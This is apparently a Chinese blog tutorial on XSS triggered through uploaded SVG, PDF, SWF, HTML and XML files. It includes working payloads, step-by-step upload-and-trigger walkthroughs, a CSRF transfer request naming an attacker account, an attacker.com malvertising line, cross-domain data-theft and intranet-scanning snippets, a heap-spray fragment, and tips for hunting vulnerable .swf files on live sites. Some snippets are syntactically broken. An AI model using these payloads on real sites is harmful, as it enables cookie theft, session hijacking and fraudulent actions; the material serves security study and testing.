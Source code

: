 > **原文链接**: https://mp.weixin.qq.com/s?__biz=Mzg5NjUxOTM3Mg==&mid=2247489666&idx=1&sn=001e09686a0787bdd7f588a9614702b6

#  XSS之文件类型触发型XSS  
原创 一个努力的学渣  一个努力的学渣   2025-07-06 15:09  
  
免责声明  
  
本文只做学术研究使用，不可对真实未授权网站使用，如若非法他用，与平台和本文作者无关，需自行负责！  
## SVG型XSS  
- SVG（Scalable Vector Graphics，可缩放矢量图形）是一种基于XML的矢量图形格式，广泛用于网页设计和数据可视化。由于SVG文件支持内嵌JavaScript代码，因此如果处理不当，可能会引发XSS（跨站脚本）攻击  
  
- 攻击原理：  
SVG文件可以通过 <script> 标签直接嵌入JavaScript代码。当浏览器加载SVG文件时，这些代码可能会被执行，从而导致XSS攻击  
（  
SVG（可缩放矢量图形）文件本质上是XML文档）  
  
- 触发方式：  
  
- 直接加载SVG文件：如果SVG文件被直接加载到浏览器中（例如通过 <img> 标签或直接在浏览器中打开SVG文件），嵌入的脚本可能会被执行  
  
- 通过HTML标签加载：如果SVG文件被嵌入到HTML页面中（例如通过 <object> 或 <embed> 标签），嵌入的脚本也可能会被执行  
  
- 利用场景：  
  
- 用户头像上传：  
  
- 允许上传SVG作为头像  
  
- 当其他用户查看资料时执行恶意脚本  
  
- 文件共享服务：  
  
- 上传恶意SVG文件  
  
- 当用户预览文件时触发攻击  
  
- 图标/图标库：  
  
- 注入恶意代码到SVG图标中  
  
- 当网站使用该图标时触发攻击  
  
- CMS模板：  
  
- 在SVG模板中注入恶意代码  
  
- 影响所有使用该模板的页面  
  

```
**************直接脚本注入**************
<svg xmlns=&#34;http://www.w3.org/2000/svg&#34; version=&#34;1.1&#34;>
<circle cx=&#34;100&#34; cy=&#34;50&#34; r=&#34;40&#34; stroke=&#34;black&#34; stroke-width=&#34;2&#34; fill=&#34;red&#34;/>
<script>alert(1)</script>
</svg>
**************直接脚本注入**************
**************事件处理程序触发**************
<svg xmlns=&#34;http://www.w3.org/2000/svg&#34; onload=&#34;alert(document.domain)&#34;>
  <rect width=&#34;100&#34; height=&#34;100&#34; fill=&#34;blue&#34;/>
</svg>
**************外部资源引用**************
<svg xmlns=&#34;http://www.w3.org/2000/svg&#34;>
  <image 
    href=&#34;non-existent-image.jpg&#34; 
    onerror=&#34;alert('XSS via onerror!')&#34;
    width=&#34;100%&#34;
    height=&#34;100%&#34;
  />
</svg>
**************外部资源引用**************
```

  
实操：  
  
比如目标网站允许上传svg格式文件，之后制作一个xss.svg格式的文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaFQRjeGicnkOFfPh8NBib3dMCfF55UqiaR1rfOMepvbaIbOJNvu5RGarsg/640?wx_fmt=png&from=appmsg "")  
  
把xss.svg格式的文件上传到目标系统中，打开后弹窗  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia9mH0LqfZs7rhZUtpOjKReHRGqCvEksTMhK3oDW03eUxTmcicvJaJFGw/640?wx_fmt=png&from=appmsg "")  
## PDF型XSS  
- PDF型XSS是一种利用PDF文档内嵌JavaScript功能在受害者浏览器环境中执行恶意脚本的攻击  
  
- 触发场景：  
  
- **直接渲染漏洞**  
：浏览器内置PDF解析器（如Chrome）未过滤脚本标签，导致嵌入的  
<script>  
被执行  
  
- **外部资源引用**  
：通过  
/EmbeddedFile  
引用外部恶意JS，或篡改PDF内嵌资源（如字体、图片）  
  
- **表单与注释字段注入**  
：PDF表单字段（如表单提交按钮）可绑定恶意JS事件  
  
- 利用场景：  
  
- 文件上传+在线预览场景（最常见）：  
攻击者将恶意PDF上传至支持在线预览功能的网站（如论坛、文档共享平台、企业内网系统）→ 用户访问该PDF预览页 → 内嵌JS在浏览器PDF渲染环境中执行  
  
- 技术依赖：  
  
- 网站使用浏览器内置渲染器（如Chrome PDFium、PDF.js未禁用JS）  
  
- PDF包含app.alert()等Adobe JS API调用（例如通过PyPDF2注入output_pdf.add_js("app.alert('XSS');")）  
  
- 风险后果：  
窃取当前域名Cookie、劫持会话、钓鱼跳转（如伪造登录页）  
  
- PDF嵌入网页攻击：  
恶意PDF通过<object>或<iframe>嵌入第三方网页（例如：<object data="malicious.pdf" type="application/pdf">）→ 用户访问该网页 → PDF内JS以宿主域名权限执行  
  
- 技术依赖：  
  
- 网站允许用户控制嵌入内容（如自定义页面模块）  
  
- 未对PDF来源做同源策略隔离  
  
- 风险后果：  
绕过CSP限制，直接操作宿主页面DOM（例如篡改页面内容、窃取表单数据）  
  
- 钓鱼邮件+附件预览：  
攻击者发送含恶意PDF附件的钓鱼邮件 → 用户使用邮件客户端（如Outlook Web）或Web邮箱的“附件预览”功能打开PDF → JS自动执行  
  
- 技术依赖：  
  
- 邮件系统启用PDF预览且使用易受攻击的渲染引擎（如旧版Adobe插件）  
  
- 用户未下载至本地用独立阅读器打开  
  
- 风险后果：  
窃取邮箱凭证、传播横向钓鱼、触发后续漏洞利用链（如结合RCE漏洞）  
  
- 云存储/网盘服务漏洞：  
用户将恶意PDF上传至云盘（如Google Drive、企业私有云）→ 使用服务的“在线预览”功能 → JS在云服务域名下执行  
  
- 技术依赖：  
  
- 云服务未清洗PDF中的JS动作（如未移除/OpenAction、/AA字典）  
  
- 预览服务使用浏览器内核渲染  
  
- 风险后果：  
以云服务用户身份发起API请求（如读取私有文件列表）、窃取OAuth令牌  
  
- 结合CSRF的复合攻击：  
恶意PDF中嵌入JS发起跨域请求（如fetch('https://bank.com/transfer?to=attacker&amount=10000')） → 用户预览PDF时自动触发转账操作  
  
- 技术依赖：  
  
- 目标接口未校验CSRF Token   
  
- 用户会话处于登录状态  
  
- 风险后果：  
模拟用户执行敏感操作（转账、改密、添加管理员），造成业务逻辑型漏洞  
  
实操：  
  
这里使用的是  
迅捷  
PDF  
编辑器试用版  
  
1  
、创建  
PDF  
，加入动作  
JS  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaickJgo2sFvE7k9ApFABH3Jiam4QkFBibujrMQm6XT556ibSXRB6fSGvPJA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iamgab05nn0p5jUCnuNvVibmVFj9jpTsNCOGDzo2icFgoDNLibDbXLXXf6g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iadfwuEjticfMAfSoiboRkOGsLpxYQTpVv55kG1R1fZTFt9nnXzKVQTG7g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iatSs1b6IZoYxOJNum4MYXX7C7eiaZ3HUh1cEz7z33c7PcYIqj85kJiaGQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaT4MZySDB9kIfnSCyUJSYWNpNt5yibZcAOWyryPz0mvUdBNG4KOty79A/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaf5CaeX7dREEicLRKI4ldCxQadE9Nmw7UWLI8JpNibSZ5xpJWRO9cia7qw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia9LWicibdvjnCM2K85Osa85ZzrYMMWeNfQwfQWk7Pp4HClNVwg2b4eiajQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaaCMOmsLL1FFVaibLY4HWb862pqmaWFq71FzibbWtfDmpXBO1rthkGd4w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iadaLRHzT6eTx1JQfTRMhwm6qo12IibJy21bXewtJt2mynqCuia4y6YajQ/640?wx_fmt=png&from=appmsg "")  
  
存在限制：  
- PDF工具直接打开：可能不会执行Javascript代码(部分PDF工具可能会执行Javascript代码，如Adobe Acrobat软件就会执行Javascript代码)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iacarzTaDOFJaCUXH5TCicqebnPEAC9OWBldibxmtnpsqmc727xIDGVutQ/640?wx_fmt=png&from=appmsg "")  
- 浏览器直接打开：会执行Javascript代码  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iacn3DLLH4BBkreOqQAKM0f1X5vaksRzIJmS0cw68ibogv8a6KZ189vdQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia8IPJAa9HOgWMUwVozqODnTy8fNPeP3npMoEu7WmwjNYxhNSmO4plAg/640?wx_fmt=png&from=appmsg "")  
  
2  
、通过文件上传获取直链（就是把文件上传到目标服务器）  
  
3  
、直链地址访问后被触发  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iagVfGY4ycPzrBeUpBPMEM8rusCQnLK1mACbCPtQY7QcgseAXTwjYAEw/640?wx_fmt=png&from=appmsg "")  
## SWF型XSS  
- SWF型XSS（Flash XSS）是一种利用Adobe Flash文件（.swf）实现跨站脚本攻击的安全漏洞，攻击者通过注入恶意脚本操控浏览器行为  
  
  
- 常见的可触发xss的危险函数：  
  
- 高风险函数（直接执行JS）：  
  
- ExternalInterface.call()：  
  
- 功能：ActionScript与JavaScript通信的核心接口，用于调用网页中的JS函数  
  
- 危险性：  
若第一个参数（JS函数名）或参数值未过滤，攻击者可注入任意JS代码（如ExternalInterface.call("eval", "alert(document.cookie)")）  
  
- getURL()：  
  
- 功能：跳转至指定URL或执行JS伪协议（如javascript:）  
  
- 危险性：  
直接执行javascript:协议内容（如getURL("javascript:alert(document.domain)")），绕过同源策略  
  
- navigateToURL()：  
  
- 功能：  
通过URLRequest对象实现页面跳转或JS执行  
  
- 危险性：  
类似getURL，但支持更复杂的请求。若未校验URL协议，可执行恶意JS  
  
- 中风险函数（间接触发XSS）：  
  
- loadVariables()：  
  
- 功能：从外部源（如URL参数、flashvars）加载数据并解析为ActionScript变量  
  
- 危险性：  
若输入未过滤，攻击者通过flashvars注入恶意字符串（如param=<img src=x onerror=alert(1)>），后续拼接至HTML或JS时触发XSS  
  
- htmlText（TextField属性）：  
  
- 功能：渲染HTML格式文本到Flash文本框  
  
- 危险性：  
  
若内容包含未编码的HTML标签或JS事件（如<a href="javascript:alert(1)">click</a>），解析时执行恶意脚本  
  
  
- ASfunction:伪协议：  
  
- 功能：  
在Flash文本中触发ActionScript函数  
  
- 危险性：结合htmlText可构造点击事件执行危险操作（如<a href="ASfunction:alert,1">XSS</a>）  
  
- 底层函数（组合利用触发XSS）：  
  
- Loader.load()：  
  
- 功能：动态加载子SWF模块  
  
- 危险性：加载恶意子SWF绕过主文件安全校验，子模块调用ExternalInterface.call()触发XSS  
  
- URLLoader.load()：  
  
- 功能：加载外部数据（如XML、文本）  
  
- 危险性：配合宽松crossdomain.xml（如<allow-access-from domain="*"/>），窃取跨域数据并通过ExternalInterface外传  
  
- SharedObject.getLocal()：  
  
- 功能：读写本地共享对象（LSO，类似Cookie）  
  
- 危险性：存储污染数据（如恶意JS字符串），后续被读取并注入DOM触发XSS  
  
- loadMovie()：  
  
- 功能：在 ActionScript 中，loadMovie 函数用于加载一个外部 SWF 文件到当前 Flash 文件中  
  
- 危险性：如果攻击者可以控制加载的 SWF 文件路径，他们可以上传或引用包含恶意代码的 SWF 文件，从而在目标页面中执行恶意脚本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iafWteaqQVyVzqVY2fTqurGEniaNs0fAV2iac6Wq8j4LiagichUp37qVMmGQ/640?wx_fmt=png&from=appmsg "")  
- 利用场景：  
  
- 用户上传+在线播放场景（最常见）：  
  
- 攻击路径：  
  
- 论坛/博客平台允许用户上传SWF文件 → 攻击者上传含ExternalInterface.call("eval", "恶意JS")的SWF  
  
- 其他用户访问该页面自动触发XSS  
  
- 技术依赖：  
  

```
// 恶意SWF代码片段
if (ExternalInterface.available) {
  ExternalInterface.call(&#34;eval&#34;, &#34;alert(document.cookie)&#34;);
}
```

- 钓鱼邮件附件攻击：  
  
- 攻击路径：  
攻击者发送钓鱼邮件携带恶意SWF附件 → 用户使用邮件客户端预览功能打开 → 触发XSS  
  
- 技术特点：  
  
- 利用Outlook Web等客户端预览机制执行SWF内嵌脚本  
  
- 结合社会工程（如伪装为“订单确认.swf”）  
  
- 危害：  
窃取邮箱凭证、获取用户通讯录  
  
- 恶意广告植入（Malvertising）：  
  
- 攻击路径：  
  
- 攻击者购买广告位注入恶意SWF代码  
  

```
<object data=&#34;//attacker.com/ads/banner.swf?param=javascript:alert(1)&#34;>  
```

- 用户访问含该广告的页面 → SWF解析param参数触发XSS  
  
- 技术依赖：广告平台未对SWF的flashvars参数做安全审核  
  
- 结合CSRF的复合攻击：  
  
- 攻击路径：  
  
- 恶意SWF通过URLLoader读取宽松跨域策略的接口数据  
  
- 使用ExternalInterface将窃取的数据外传  
  

```
// 跨域窃取数据示例
var loader:URLLoader = new URLLoader();
loader.load(new URLRequest(&#34;https://bank.com/userinfo&#34;));
loader.addEventListener(Event.COMPLETE, (e:Event) => {
  var data:String = e.target.data;
  ExternalInterface.call(&#34;postToAttacker&#34;, data); // 外传至攻击者服务器
});
```

- 依赖条件：  
目标站点存在错误crossdomain.xml配置  
  

```
<cross-domain-policy>
  <allow-access-from domain=&#34;*&#34;/> <!-- 致命错误! -->
</cross-domain-policy>
```

- 企业内网渗透：  
  
- 攻击路径：  
  
- 攻击者构造SWF文件利用内网系统信任关系  
  
- 通过SharedObject.getLocal()读取本地缓存敏感数据  
  
- 注入恶意JS扫描内网资源  
  

```
// 内网扫描示例
ExternalInterface.call(
  &#34;fetch('http://192.168.1.1/admin', {credentials: 'include'})&#34;
  .then(res => res.text())
  .then(data => { /* 外传数据 */ })
);
```

- 典型目标：  
OA系统、旧版ERP等未更新Flash策略的内部应用  
  
- 浏览器插件漏洞利用：  
  
- 攻击路径：  
  
- 利用Flash插件漏洞（如CVE-2015-5119）绕过沙箱  
  
- 执行系统级恶意代码  
  

```
// 经典漏洞利用链（Heap Spray）
var shellcode:ByteArray = new ByteArray();
shellcode.writeBytes(生成恶意字节码);
var exploit:Vector.<uint> = new Vector.<uint>(0x1000);
for (var i:int = 0; i < exploit.length; i++) {
  exploit[i] = 0x0c0c0c0c; // 堆喷占位
}
```

- 影响范围：  
未更新补丁的Adobe Flash Player < 18.0.0.324  
  
安装所需工具：  
  
安装Adobe Flash Professional CS6：  
  
Adobe Flash Professional CS6 下载：  
http://www.downza.cn/soft/27510.html  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iarSfoVyB58Bknq0ibPR2AUDoGEMVxw2aXhe4d587apCPo2D4sQyeBI5w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaLcIMG9VQP86JDqpaRp8gWv4YfpqMbGuJ7mlwcTI2icKNS3ibWgMxLlIg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ialkGEU5nBCrIR2rXbASUzvYoPkicCTNksT0xL3ONreIG29YVHic6czP3Q/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaiam3B9IAVGrofxDTwGLjuLEvYwdJgiaicTPGAicNNfEPDLZnbeSJicukHiaQ/640?wx_fmt=png&from=appmsg "")  
  
以管理员身份运行就可以正常打开了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iahYOOXvQ18mN5A7Xnek0CGhaiaV7j2nV4kTICzWuXPSwXy0CJLgolWicg/640?wx_fmt=png&from=appmsg "")  
  
制作swf  
-  
xss文件：  
  
1  
、新建swf文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaDfYW64q6PwQQbC9wS2M0l1vWzP1D883BcrYFqDkdbrGQuuVQamyA2g/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaKHl8AwIsEFQMYbl7elkrMXOJMX1uWw76BSIyqHbgnIze5hIA7t6rPA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ianMYHtSiaibowaalOtQDciaJJMwEuP1KGNV0WeicyMX7TbggprTOQicLKeibQ/640?wx_fmt=png&from=appmsg "")  
  
2  
、  
F9  
进入代码区域  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaT2fa6KfNU71TZrzEBfkjQHECeA2sVsRqylLmpDABvibViccpxsqjPD9Q/640?wx_fmt=png&from=appmsg "")  
  
3  
、属性发布设置解析  

```
//取m参数
var m=_root.m;
//调用html中Javascript中的m参数值
flash.external.ExternalInterface.call(m);
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iabCvnNlibyu2mw8Xq7cr2YL5LsL06u4wkePkCxmXfX7BtmaFhialBaFiag/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaMppoFbibzOaib3gSH5D0A5CnKibbj5GsB1jRU7wUPQtVYfXxSkwWJNFEA/640?wx_fmt=png&from=appmsg "")  
  
.swf运行需要安装flag中心工具：  
https://www.flash.cn/  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia8XAmCrEPeTAiaFpbJBicd08df8z7jVmb5BoHGQo2mk51ULFBpiayoUudw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iazCiaHqjJBibRb6eOu1bR4yEc3xcXfCFTIFCwZ4EGO1hDpsLZ2ia4OEarQ/640?wx_fmt=png&from=appmsg "")  
  
触发：  
?  
m  
=  
alert  
(  
/xss/  
)  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaC4qjYmibkLI82VswHwCdA2mC9ib1ia5OrzFKBreJfaZ0p2bvSG8tfT4WA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iambmCK5zYBFrYd857mBD4gQCA1sPcuoMYHmfgFf1EyHTTibjx1CSvngg/640?wx_fmt=png&from=appmsg "")  
  
  
swf反编译工具：  
  
JPEXS  
 Free Flash Decompiler  
  
下载地址：  
https://github.com/jindrapetrik/jpexs-decompiler  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaDB98jDhpfLmva7B1QYibKPBgPtU9dL4XSk28wiaFI8SC0ibQRlfTUI6Ng/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaO91O47ibPcYJC5pU1TmcWaeT52CuTNMNZyxeNHC3jsf41XS3SMYTdYg/640?wx_fmt=png&from=appmsg "")  
  
  
如何寻找.swf漏洞？（  
比如4399小游戏，肯定有  
.swf  
文件  
）  
- 比如使用搜索引擎搜索phpwind（phpwind只是某一个模板，只要是存在.swf文件，都可以去尝试下载-->反编译-->分析代码-->利用）  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaUlIuchO8P37KGZPbdAQ3kLbYUPcZvraJBFPs8UZllKW5vLPsDwQWlg/640?wx_fmt=png&from=appmsg "")  
- 之后尝试输入/images/uploader.swf  
- /images/uploader.swf：爬虫、网站扫描、加载资源里面flash播放时自动抓取的  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iajXmD1gDCohJQ4CzGdre3KTpEWOoiaOO2XJkCzyJSB8Mejyfk49KQbRA/640?wx_fmt=png&from=appmsg "")  
  
如何测试swf文件xss安全性：  
- 反编译swf文件  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia9KwmVmiaEQgpAXqZib0aEvb2uoZObpyCGuosxFziaiabXwNVr1bcerqdUg/640?wx_fmt=png&from=appmsg "")  
- 查找触发危险函数  
- 常见的可触发xss的危险函数有：getURL，navigateToURL，ExternalInterface  
.  
call，htmlText，loadMovie等等  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaNsVnFrLYEBUicymEw3MmKsA6Hh3wRu7D9of3OjcKDCFTrZFwD1UiajoA/640?wx_fmt=png&from=appmsg "")  
- 找可控参数访问触发  
- jsobject=alert(1)  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iapt7y8Ke4A6ukqNEuCYm5GkmfibVzGq7R70xLk9xQesDlyo6NnI2RNXw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaFSw9QRYlrL71UGb56rt9Blia0EH7AKjicibzTjkwjhiaxiabXELHz88d6Ow/640?wx_fmt=png&from=appmsg "")  
  
总结：  
- 上传swf文件可以做xss漏洞  
- 找到目标上存在的swf进行反编译后找xss漏洞  
## HTML型XSS  
- HTML型XSS（跨站脚本攻击）是最常见且危险的Web安全漏洞之一，攻击者通过注入恶意脚本到HTML文档中，在用户浏览器执行这些脚本，从而窃取信息或执行未授权操作  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3ia1rgmTpq6c2VVCJwDgicj9iaWWU4HaNK4QP5TePHia7F2Y3AVZhb2AOrxg/640?wx_fmt=png&from=appmsg "")  
  
  
简单的说：就是单纯在  
HTML  
代码中写  
XSS  
代码即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaC1peccUMAEABvx3FXyfh8VOwLMoWDyVpEs88he4PnIg6wdnSNgGK2g/640?wx_fmt=png&from=appmsg "")  
## 其他：XML格式等  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iarOhjXq5XgnhQkUR4xNp1rRaAGHOItCKEgntxsxuSbzz9DktMcbUFGQ/640?wx_fmt=png&from=appmsg "")  
- XML型XSS是一种特殊类型的跨站脚本攻击，利用XML文档解析特性执行恶意脚本。尽管不如HTML型XSS常见，但在API、Web服务和数据驱动应用中危害严重  
  

```
**************利用XHTML命名空间**************
<?xml version=&#34;1.0&#34; encoding=&#34;utf-8&#34;?>
<xhtml:html xmlns:xhtml=&#34;http://www.w3.org/1999/xhtml&#34;>
    <xhtml:script>
        alert(&#34;xss&#34;);
    </xhtml:script>
</xhtml:html>
**************利用XHTML命名空间**************
**************利用script标签的namespaceuri**************
<html>
<head></head>
<body>
    <prefix:script xmlns:prefix=&#34;http://www.w3.org/1999/xhtml&#34;>
        alert(&#34;xss&#34;);
    </prefix:script>
</body>
</html>
**************利用script标签的namespaceuri**************
**************利用svg文件**************
<?xml version=&#34;1.0&#34; standalone=&#34;no&#34;?>
<!DOCTYPE svg PUBLIC &#34;-//W3C//DTD SVG 1.1//EN&#34; &#34;http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd&#34;>
<svg version=&#34;1.1&#34; baseprofile=&#34;full&#34; xmlns=&#34;http://www.w3.org/2000/svg&#34;>
    <polygon id=&#34;triangle&#34; points=&#34;0,0 0,50 50,0&#34; fill=&#34;#009900&#34; stroke=&#34;#004400&#34;/>
    <script type=&#34;text/javascript&#34;>
        alert(&#34;xss&#34;);
    </script>
</svg>
**************利用svg文件**************
```

  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaXFCFakRBvsCj8uO6ViaVn6VyyLdyvkibjCPgW9iaoEiaVBaa17nmibYDG6Q/640?wx_fmt=png&from=appmsg "")  
  
  
总结  
- 文件上传类XSS挖掘：从安全文件上传到  
XSS  
的转换（红队玩法还可以配合钓鱼）  
  
- 当支持HTML文件上传时，优先使用HTML型XSS，我们不能本末倒置，学习了高级技巧，却忘记了最基础的东西  
  
- 利用文件上传获取文件访问地址，访问触发（浏览器格式解析问题会导致失效）  
  
- 文件上传XSS的核心在于信任链的断裂。最有效的攻击往往发生在安全措施的"间隙"中：  
  
- 当安全团队专注于阻止HTML上传时，利用SVG的"合法图片"身份突破  
  
- 当防御者关注存储安全时，利用解析器特性触发漏洞  
  
![](https://mmbiz.qpic.cn/mmbiz_png/BqBKZfLY4RxXDqqSWRxn2t9jwy7MQb3iaicVFSxib71mR4yeYAMNA68WgMrdP0zoo7AalBkPI7wAnIgjSJ7On6RUA/640?wx_fmt=png&from=appmsg "")  
  
